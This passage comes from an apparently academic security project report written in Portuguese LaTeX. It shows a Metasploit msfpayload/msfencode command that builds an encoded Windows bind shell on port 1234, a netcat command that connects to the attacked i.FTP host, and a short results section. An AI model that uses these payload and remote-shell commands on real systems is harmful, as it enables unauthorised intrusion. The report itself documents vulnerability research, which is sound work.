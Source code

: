 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{lstlisting}
   ruby msfpayload windows/shell_bind_tcp EXITFUNC=seh
     LPORT=1234 R | ruby msfencode -a x86
     -b `\x00\x0a\x0d\x26' -t c
\end{lstlisting}


que abre um porto TCP para a shell da máquina atacada no porto 1234. O atacante tem apenas que se ligar a esse porto para ter acesso à máquina:

\begin{lstlisting}
   nc a.b.c.d 1234
\end{lstlisting}

O resultado disto pode ser visto na Figura~\ref{fig:remote_shell}. Correndo o comando \texttt{whoami} é possível verificar que a \textit{shell} está a ser corrida como o user que lançou o i.FTP.

\begin{figure}[h]
        \centering
	\includegraphics[width=0.7\linewidth]{remote_shell}
	\caption{Acesso remoto à máquina atacada}
	\label{fig:remote_shell}
\end{figure}


\section{Resultados}



\subsection{Esperados}

Originalmente, os resultados esperados correspondiam à identificação, \textit{exploit} e correcção de uma vulnerabilidade no Haihaisoft UP. Uma vez determinado que estes resultados eram difíceis de conseguir, foi alterado o paradigma do projecto.
\end{document}
